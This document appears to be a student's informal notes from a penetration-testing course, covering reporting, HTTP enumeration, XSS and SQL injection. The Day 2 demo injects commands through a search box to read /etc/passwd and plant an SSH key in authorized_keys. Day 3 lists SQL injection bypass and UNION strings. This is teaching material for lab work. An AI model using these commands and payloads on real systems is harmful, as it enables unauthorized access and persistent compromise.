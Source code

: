 ## Misc 

https://sec.cybbh.io/public/security/latest/index.html
#### Test Day: August 15th

## Day 1 - Recon/Research/Pen Testing
### Pen Testing

#### Pen Testing Test Reporting

    OPNotes
      Actions being taken that works, maps, the things that have worked. Keeping track of the steps

    Penetration Test Reporting
      Executive Summary
        The tops, not evertything but a summary
      Technical Summary
        In the weeds, the more technical stuff
## Day 2 - Web Explotation
### HTTP Methods
    GET, POST, HEAD, PUT

### HTTP Response Codes
    10X Info, 2XX Success, 30X Redir, 4XX Client Err, 5XX Serv Err

### JavaScript (JS)
    HTML Frame of the House
    CSS is the paint and decoration
    JavaScript is used to change things afterwards

### HTTP Enumeration
```
nmap -v -sT -T5 --script http-enum.nse 10.50.31.75 -> web enum
nikto -h 10.50.31.75 -> info about the sub dirs 

sudo apt install nikto -y
```

### Cross-Site Scripting
    Attacker puts bad stuff on trusted website, it allows it to execute bad code
#### Reflected XSS
    Not stored, run JS on website, changes url, bad code in url
#### Stored XSS
    Actually stored on server

### Demo
    lin-ops> ssh-keyget -t rsa "enter", "enter" is in /home/student/.ssh/id_rsa"
    passhprhase -> blank
    have genterated key
    cd ~/.ssh 
    ca id_rsa.pub(lic key) "generated public key"
    in search box
        : whoami -> www-data
        : cat /etc/passswd -> home dir is /var/www
        : ls -la /var/www -> see if .ssh file is created
        : mksir /var/www/.ssh
        : echo "ssh-rsa 'key' student@lin-ops" > /var/www/.ssh/authorized_keys

## Day 3 - Web Explotation  Part 2 - SQL Injection 
### MySql
    Unsanitized vs Sanitized Fields
        Unsanitized test, enter '
            will return info, no errors or jeneric error
        Santized: items are removed, escaped into single string

    Server-Side Query Processing
        Before Input
            name='$name'...
            nmae='JohnDoe'

### Injecting Statemnet
    User Enters TOM' OR 1='1 in the name and pass fields
    Truth Statemnet: tom 'OR 1=' 1

    Back End
        name='tom' OR 1='1' AND PASS='tom' OR 1='1'

##
    mysql
    use session;
    select * from user;
    select id from user where name='admin';  = 0
    select id from user where name='tom';  = none
    select * from user where name='tom' OR 1=1;  = eveyrthing
    stacking statements, chain statements togetyher with ;

    To find the version
        Audi' UNION SELECT @@version,database(); #

## Nesting Statements
    # ignore the rest or -- tells to ignore stuff, comment out some of the sql error

## Day 4 - Reverse Engineering
    
